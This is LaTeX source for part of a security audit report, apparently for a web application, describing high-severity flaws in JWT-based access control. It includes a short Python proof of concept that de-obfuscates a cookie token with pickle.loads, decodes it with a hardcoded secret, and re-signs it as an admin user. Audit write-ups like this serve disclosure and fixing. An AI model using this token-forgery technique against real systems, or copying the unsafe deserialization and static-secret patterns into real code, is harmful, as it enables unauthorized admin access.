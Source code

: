 \documentclass[11pt,a4paper]{article}
\newenvironment{vulnerability}[3]{%
    \begin{tcolorbox}[
        colback=white,
        colframe=#1,
        fonttitle=\bfseries\color{white},
        coltitle=#1,
        title=#2: #3
    ]
}{%
    \end{tcolorbox}
}
\begin{document}
\begin{vulnerability}{highcolor}{High}{Client-side Privilege Control}
\begin{lstlisting}[language=Python]
# JWT payload now includes privilege level
token = jwt.encode({
    'username': username,
    'privilege': user[0][3],
    'exp': expiration
}, SECRET_KEY, algorithm="HS256")

# Access control check
if current_user['privilege'] != 1:
    return jsonify({"error": "Admin access required"}), 403
\end{lstlisting}
\end{vulnerability}

\subsection{V4: JWT Implementation Flaws}

\begin{vulnerability}{highcolor}{High}{JWT Implementation Flaws}
\subsubsection*{Description}
The JWT implementation had multiple flaws:
\begin{itemize}
    \item Static, hardcoded secret key
    \item No token expiration
    \item Insecure storage in cookies
    \item Unnecessary and ineffective obfuscation
\end{itemize}

\subsubsection*{Proof of Concept}
An attacker could extract and decode a valid JWT token, modify its contents, and re-encode it:

\begin{lstlisting}[language=Python]
# Decode obfuscated token
obfuscated_token = "a7c6b5d4e3f2...1234"  # From cookie

token_hex = obfuscated_token[len(obfuscated_token)//2:] + obfuscated_token[:len(obfuscated_token)//2]
token_bytes = bytes.fromhex(token_hex)
token = pickle.loads(token_bytes).decode()

# Decode JWT
payload = jwt.decode(token, "secret_key", algorithms=["HS256"])

# Modify payload
payload["username"] = "admin1"  # Escalate to admin

# Re-encode
new_token = jwt.encode(payload, "secret_key", algorithm="HS256")


\end{lstlisting}
\end{vulnerability}
\end{document}
